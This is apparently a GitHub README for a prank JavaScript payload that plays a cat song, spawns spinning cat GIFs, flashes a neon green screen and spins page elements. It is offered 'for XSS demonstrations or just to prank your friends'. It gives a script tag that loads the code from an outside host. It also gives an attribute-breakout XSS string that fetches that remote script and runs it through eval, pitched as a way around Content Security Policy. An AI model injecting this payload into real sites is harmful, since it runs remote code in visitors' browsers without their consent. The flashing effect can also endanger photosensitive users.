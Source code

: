 # 🐱 Spinning Cat Chaos Script

![Spinning Cat](https://raw.githubusercontent.com/orlyjamie/spinningcat/refs/heads/main/cat.gif)

This repository contains a chaotic JavaScript script that:
- Plays an audio file of a cat song.  
- Spawns spinning cat GIFs all over the page.  
- Flashes a neon green screen intermittently (warning).  
- Makes all elements on the page spin.  

Perfect for XSS demonstrations or just to prank your friends!

---

## 🚀 Usage

### 1. Direct Link
You can directly embed the script using this URL:

```html
<script src="https://meowww.lol/cat.js"></script>
```

### 2. Fetch and Execute Inline
If external scripts are blocked by CSP, try this:

```html
"><script>fetch('https://meowww.lol/cat.js').then(r=>r.text()).then(eval)</script>
```

# 💬 Contact
https://x.com/theonejvo

https://www.linkedin.com/in/theonejvo/

Enjoy the chaos! 🐱🎶💚🔄
